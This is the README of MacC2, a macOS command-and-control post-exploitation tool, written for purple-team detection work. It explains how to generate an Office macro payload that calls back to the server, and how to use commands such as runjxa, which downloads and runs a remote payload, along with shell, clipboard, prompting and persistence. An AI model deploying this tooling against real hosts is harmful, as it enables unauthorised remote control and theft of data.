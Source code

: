 # MacC2
MacC2 is a macOS post exploitation tool written in python that uses Objective C calls or python libraries as opposed to command line executions. **I wrote this tool to aid purple team exercises aimed at building detections for python-based post exploitation frameworks on macOS**. Apple plans to eventually remove scripting runtimes from base macOS installs, but it appears that python is still included by default on base installs of Big Sur. 

You can set up the server locally or you can use the docker setup I have included in this repo. Instructions below:

-----
## Instructions for Running Using Docker: ##

***If you do not already have docker set up:***
1. > *chmod +x install_docker_linux.sh*
2. > *sudo ./install_docker_linux.sh*

***Next:***
1. > *chmod +x setup.sh*
2. > *sudo ./setup.sh* **(this will create an untrusted ssl cert and key, generate a macro file for the server and port you specify (will drop the macro in macro.txt locally), build macc2-docker, and run the MacC2 server inside of macc2-container in interactive mode)**
3. when prompted, enter the IP/hostname of the MacC2 server
![Image](pic30.png)
4. when prompted, enter the port that the MacC2 server will listen on
![Image](pic31.png)
5. A hex encoded macro payload will be dropped locally in a file named macro.txt that is configured to connect to your MacC2 server on the hostname/IP and port you specified.
![Image](pic32.png)
6. Docker will install the aiohttp python3 dependency, build macc2-docker, and will run the MacC2 Server in a container named macc2-container. Once finished the MacC2 server will listen on the specified port:
![Image](pic33.png)
7. You can run *docker ps* and validate that the MacC2 server is running (you will see a container named macc2-container listed there)

You can then either copy the MacC2_client.py file over to the client and execute for a callback or you can import the macro.txt macro into an Office document and "Enable Macros" when opening for a callback on the client. 

------
## Running Locally (Without Using Docker) ##
If you opt to not use docker, you can set up the server locally using the steps below:

Since the MacC2 server uses the aiohttp library for communications, you will need to install aiohttp first:

> _*pip install aiohttp **(if you encounter an error ensure that pip is pointing to python3, since aiohttp is a python3 library)**: 

> python3 -m pip install --upgrade --force pip*_

**_On C2 Server:_**
1. Set up ssl (note: use a key size of at least 2048)

If you do not have your own cert, you can use the following to generate a self signed cert:

- 1: > **openssl req -new -newkey rsa:2048 -nodes -out ca.csr -keyout ca.key**

- 2: > **openssl x509 -trustout -signkey ca.key -days 365 -req -in ca.csr -out ca.pem**

**note: the server script is hard-coded to use ca.pem and ca.key, so keep these names the same for now, or change the code appropriately**

2. Use macro_generator.py to create the MacC2 scripts with the server's IP/domain and port. macro_generator.py also builds a macro (macro.txt) that uses hex encoding to run MacC2. You can copy and paste the contents of macro.text into an MS Office document:

Usage: 

> python3 macro_generatory.py -s [C2 Server IP/domain] -p [C2 Server Port]

-Example:

![Image](pic3.png)

3. Start the generated MacC2_server.py script to listen for a connection:

![Image](pic4.png)


**_On Client Side (the target mac host):_**
1. If you desire to not be limited by the mac sandbox and want more functionality, you may opt to copy the MacC2_client.py script to the client (assuming you have access).

2. On the client, run the MacC2_client.py script: 
> python MacC2_client.py
![Image](pic5.png)

3. On the server, you will see an inbound connection. Example below:

![Image](pic6.png)

----------

***Using MacC2***

After you receive a connection, you can use the "help" command on the server to get a list of built-in commands available. You can enter one of these commands. After entering a command and pressing Enter, the command is queued up (allows you to enter multiple commands to be executed by the client). Once you type "done" and hit Enter, all of the queued commands will be sent to the client for execution.

![Image](pic7.png)

Each command is pretty straightforward. The command options that are not OPSEC safe (i.e., command line executions or cause pop ups) are also flagged in red from the help menu.

Functions of Note:

- You can generate a Mythic C2 JXA .js payload, download it, and host it on a remote server. Then you can provide the url to the hosted file to MacC2 using the **runjxa** command to have MacC2 download and execute the Mythic .JXA payload:

**>>> runjxa <url_to_JXA_.js_payload>**

- Note: If you gain access using the MS Office macro, then the persistence method will not work due to sandboxing. The files will still be dropped and the login item will still be inserted but upon reboot the quarantine attribute prevents the persistence from executing.
----------

**_Additional Info_**

The MacC2 server uses aiohttp to easily allow for asynchronous web comms. To ensure that only MacC2 agents can access the server, the server includes the following:

- A specific user agent string check (if a request fails this check it receives a 404 Not Found)

- A specific token (if a request failes this check it receives a 404 Not Found)

The operator flow after setting everything up and getting a callback is:

- view help menu for command options

- enter command name and press enter for each command you want to run

- enter "done" and press enter to have the queued commands sent to the client for execution

- **NOTE: The default sleep is 10 seconds. The operator can change that by using the sleep [numberofseconds] command.**

- **NOTE: The MacC2 server currently does not have a way to conveniently switch between sessions when multiple clients connect. Instead the server auto switches between sessions after each command executed. So the operator will need to pay attention to the IP in the connection to know which session is being interacted with.


----------

**_Macro Limitations_**

MacC2 does NOT include any sandbox escapes and therefore all functions do not work when access is gained via the Office macro. Functions that DO work from the sandbox include:

- runjxa 

- systeminfo

- addresses

- prompt (the prompt is hidden under the python tray icon though...)

- clipboard

- shell (not OPSEC safe)

- spawn (not OPSEC safe)

- cd and listdir (sandbox prevents access for most directories but you can see the root '/' directory and potentially others as well)

----------

**_DISCLAIMER_**

This is for academic purposes and should not be used maliciously or without the appropriate authorizations and approvals.

